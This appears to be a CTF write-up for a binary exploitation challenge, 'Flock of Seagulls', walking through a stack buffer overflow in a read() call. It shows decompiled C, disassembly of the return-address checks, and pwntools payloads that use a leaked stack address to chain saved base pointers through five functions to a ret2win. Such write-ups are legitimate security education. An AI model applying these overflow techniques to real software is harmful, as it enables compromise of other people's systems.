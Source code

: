 # Flock of Seagulls

This is the second challenge of the ctf, whith a pretty straight design, or we have a main function that calls 5 functions one after another and then we have a buffer overflow which has to deal with the checks made by each return function, untill we get to the main, where we will be able to ret2win

Here is the last function called or the first one to check.
```c
void func5(void) {
  long unaff_retaddr;
  char buffer [112];
  ssize_t read_ret;
  int *stack_leak;
  
  stack_leak = buffer;
  printf("<<< Song Begins At %p\n",stack_leak);
  printf("PwnMe >>> ");
  // Overflow here
  read_ret = read(0,buffer,500);
  //
  if (unaff_retaddr != 0x401276) {
    fail();
  }
  return;
}
```
So firstly we can try to find the `offset` of the overflow.

![image](https://github.com/Wanasgheo/Writeups/assets/111740362/ac8f9f49-e7ab-40d9-9f9e-654d6ad39008)

As we can see here it checks for the `136` offset, and here is the check in asm
```asm
   0x00000000004011f3 <+0>:	push   rbp
   0x00000000004011f4 <+1>:	mov    rbp,rsp
   ...
   0x0000000000401248 <+85>:	mov    QWORD PTR [rbp-0x10],rax
   0x000000000040124c <+89>:	mov    rax,QWORD PTR [rbp+0x8]
   0x0000000000401250 <+93>:	mov    QWORD PTR [rbp-0x18],rax
   ; # 0x401276 <func4+13>
   0x0000000000401254 <+97>:	lea    rax,[rip+0x1b]
   ; # cmp buffer-offset-136, <func4+13> 
   0x000000000040125b <+104>:	cmp    QWORD PTR [rbp-0x18],rax 
   0x000000000040125f <+108>:	je     0x401266 <func5+115>
   0x0000000000401261 <+110>:	call   0x4011d6 <fail>
   0x0000000000401266 <+115>:	nop
   0x0000000000401267 <+116>:	leave
   0x0000000000401268 <+117>:	ret
```
So we can't simply set the ret address as `win()`, instead we will need make works each checks and properly set the `base pointer` which at each functions' epilogue will change the `stack`.

In order to do it we will use the stack leak to properly build our input and make the `base pointer` always point to specific location of our input
```python3
payload = flat(
  b"A" * 0x80,
  stack_leak + N,   # We can chose an arbitrary place in the array to make works the next check
  p64(func4 + 13),  # + 13 because it doesn't check the start but the end     
)
```
That's the prototype to pass the first check and then continue. We will need to chose a properly position to make works the next check because the `base pointer` will become the new stack for the next function

Before the `leave`

![image](https://github.com/Wanasgheo/Writeups/assets/111740362/5b46d32e-9b61-422a-a126-50d37e483e30)

And after it

![image](https://github.com/Wanasgheo/Writeups/assets/111740362/c408ab91-e81a-4658-ac6e-a840cadb29cf)

In the case shown we changed the `basepointer` into a specific position of the buffer where at `[rbp - 8]` is located `func3 - 13`

![image](https://github.com/Wanasgheo/Writeups/assets/111740362/c51f9e8e-2551-454c-b8db-6895316198a5)

Following this method, and with some trial and error, we are able to pass all the checks and get back to the main where we're able to ret2win.

Here is the payload i used in order to achieve it
```python3
payload = flat(
  # 0x20 bytes ofPad
  b"A" * 0x20,
  stack_leak + 0x40,
  p64(func3),
  # 0x10 bytes of Pad
  b"B" * 0x10,             
  stack_leak + 0x48,
  p64(func2),
  p64(func1),
  # 0x8 bytes of Pad
  b"C" * 0x8,             
  win,
  # 0x18 bytes of Pad
  b"D" * 0x18,             
  stack_leak + 0x20,
  p64(func4),
  # 0x8 bytes of Pad
  b"E" * 8,                
)
```
This is just a way to solve this but there lots of different solutions, all of them with the same idea.

![image](https://github.com/Wanasgheo/Writeups/assets/111740362/fe52d0a4-a09c-4026-8261-24e158e6d435)

